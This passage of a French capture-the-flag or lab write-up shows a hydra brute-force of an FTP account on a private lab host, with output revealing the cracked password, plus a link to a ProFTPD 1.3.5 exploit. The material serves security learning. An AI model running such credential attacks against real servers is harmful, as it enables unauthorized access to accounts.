 ```bash
                                                                                                                       
  # Limit the maximum number of anonymous logins                                                                       
  MaxClients            10                                                                                             
                                                                                                                       
  # We want 'welcome.msg' displayed at login, and '.message' displayed                                                 
  # in each newly chdired directory.                                                                                   
  #DisplayLogin         welcome.msg                                                                                    
  #DisplayChdir         .message                                                                                       
                                                                                                                       
  # Limit WRITE everywhere in the anonymous chroot                                                                     
  <Limit WRITE>                                                                                                        
    DenyAll                                                                                                            
  </Limit>                                                                                                             
</Anonymous>
```

Je suis parti sur un brute force du compte `aeolus` sur le serveur FTP. Et ça a marché :

```bash
$ hydra -l aeolus -P rockyou.txt ftp://192.168.56.113
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-20 14:00:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344381 login tries (l:1/p:14344381), ~896524 tries per task
[DATA] attacking ftp://192.168.56.113:21/
[STATUS] 2727.00 tries/min, 2727 tries in 00:01h, 14341654 to do in 87:40h, 16 active
[STATUS] 2736.00 tries/min, 8208 tries in 00:03h, 14336173 to do in 87:20h, 16 active
[STATUS] 2743.57 tries/min, 19205 tries in 00:07h, 14325176 to do in 87:02h, 16 active
[21][ftp] host: 192.168.56.113   login: aeolus   password: sergioteamo
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-20 14:09:53
```

A noter que pendant ce temps j'ai énuméré le serveur `WebFS` sans succès. Il y avait peut de chances de trouver quelque chose car un serveur méconnu comme celui-ci a sans doute des fonctionalités très limitées.

A tout hasard j'ai cherché des vulnérabilités existantes pour la version de `ProFTPD` et je n'ai pas été déçu : [ProFTPd 1.3.5 - File Copy - Linux remote Exploit](https://www.exploit-db.com/exploits/36742)
